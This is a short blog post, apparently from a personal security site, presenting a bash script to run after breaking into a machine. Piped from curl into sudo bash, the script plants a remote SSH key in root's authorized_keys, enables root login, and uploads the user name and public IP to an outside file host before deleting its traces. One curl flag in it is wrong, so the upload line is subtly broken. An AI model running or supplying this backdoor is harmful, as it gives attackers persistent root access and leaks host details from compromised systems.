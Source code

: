 ```yaml
---
layout: post
title: Root SSH Certificate
tags:
- Security
- SSH
---
```


After gaining access to an endpoint use the following script to install a root ssh certificate.

This is for demonstration purposes only. SSH should not be accessed using root.
```
#!/bin/bash
# Remote SSH Certificate Install - StartTheTrip
# via 'curl https://location.com/RootSSH.sh | sudo bash'
# cat >> .ssh/authorized_keys || exit 1 ;
if [ ! -d /root/.ssh ]; then
	mkdir -p /root/.ssh;
fi
curl https://www.test.com/mykey.pub >> /root/.ssh/authorized_keys
echo permitRootLogin yes >> /etc/ssh/sshd_config
echo $USER - $HOME > /tmp/success.txt
curl https://ifconfig.me >> /tmp/success.txt
curl -f "file=@/tmp/success.txt" https://file.uploadsite.me
rm -rf /tmp/success.txt
```
<br><br>
Tag: Security, SSH